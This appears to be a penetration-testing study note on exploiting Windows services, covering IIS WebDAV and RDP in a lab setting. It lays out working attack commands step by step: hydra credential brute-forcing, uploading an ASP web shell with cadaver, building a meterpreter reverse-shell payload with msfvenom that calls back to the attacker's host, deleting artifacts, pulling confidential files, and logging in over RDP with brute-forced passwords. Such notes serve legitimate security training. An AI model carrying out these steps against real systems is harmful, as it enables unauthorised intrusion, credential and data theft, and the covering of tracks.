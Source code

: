 # Exploiting Vulnerabilities in Windows

## IIS WebDav

WebDAV is an http extension which turns a web server into a file server so clients can interact with files on the web server - they can move, copy, edit and delete files on the webserver using webdav. This service works with iis and runs on the same ports as it. This service tends to serve files rather than web apps.

### Enumeration

If we find webdav running on a machine, it will generally be running with iis or apache on port 80 or 443 We can use an nmap script to have a look at it more:

```bash
sudo nmap -Pn -n -sV -p80 --script=http-enum 10.10.8.18
```

### Credentials

We will need valid credentials most of the time to access webdav which is usually found at `/webdav/` We can try brute forcing them if we cannot find them anywhere else:

```bash
sudo hydra -L /usr/share/wordlists/metasploit/common_users.txt -P rockyou.txt http-get://10.10.8.18/webdav
```

### Davtest

Once we have valid credentials, we can use davtest to see which file extensions can be uploaded and executed:
```bash
sudo davtest -auth messi:Password123 -url http://10.10.8.18/webdav
```

### Cadaver

Once we have found out which file extensions can be executed, we can use cadaver to put a malicious web shell onto webdav and then trigger it via a browser:

```bash
sudo cadaver http://10.10.8.18/webdav
```

We then enter our creds.

```bash
put /usr/share/webshells/asp/webshell.asp
```

We can trigger this webshell from a browser. This webshell can be used to issue commands to the server such as typing out the contents of interesting files.

Another useful attack (if we can put .asp files onto the server) is to create a malicious reverse shell using msfvenom and then use the compromised webdav service to put it onto the server:

```bash
sudo msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.24.2 lport=4444 -f asp > shell.asp
```

We then use our cadaver session: `put shell.asp`

We can now start a handler in msfconsole and trigger the malicious .asp reverse shell by visiting it in a web-browser: `http://10.2.22.238/webdav/shell.asp`

We can use our cadaver session to delete any artifacts once we have finished with them. We can use: `delete shell.asp`

We can also use cadaver to get interesting files from webdav: `get confidential.txt`

### Msfconsole

There is a module in msfconsole which automates the exploitation of webdav (assuming we have valid credentials for it and can upload and execute .asp files):

```bash
use exploit/windows/iis/iis_webdav_upload_asp
```

We need to set the `HttpUsername`, `HttpPassword`, `RHOSTS` and `PATH` options. The path will be in the format of: `set PATH /webdav/shell.asp`

## RDP

This runs on port 3389 and lets people remotely interact with machines via a gui - it is disabled by default but can be enabled - valid credentials will be needed to access it.

### Enumeration

RDP is a gui which allows users to remotely access a windows machine. It runs by default on port 3389 but this is often changed by administrators so we need to check all ports and if we get odd results with services not recognised by nmap it is worth using the msfconsole `rdp_scanner` module to see if rdp is running over that specific port: `use auxiliary/scanner/rdp/rdp_scanner` - we will need to set the `rhosts` and `rport`

### Credentials

Once we have found rdp running, we can attempt to brute force valid credentials using hydra.

>[!WARNING]
>Slow the attack down using `-t 4` as the default `-t 16` is liable to crash the remote machine

```bash
sudo hydra -L users.txt -P rockyou.txt rdp://10.2.2.8:3333 -t 4
```

### Exploitation

Once we have valid credentials, we can use a tool such as `xfreerdp` to attempt to rdp into the victim machine:

```bash
xfreerdp /u:administrator /p:"tinkerbell" /v:10.2.2.8:3333
```
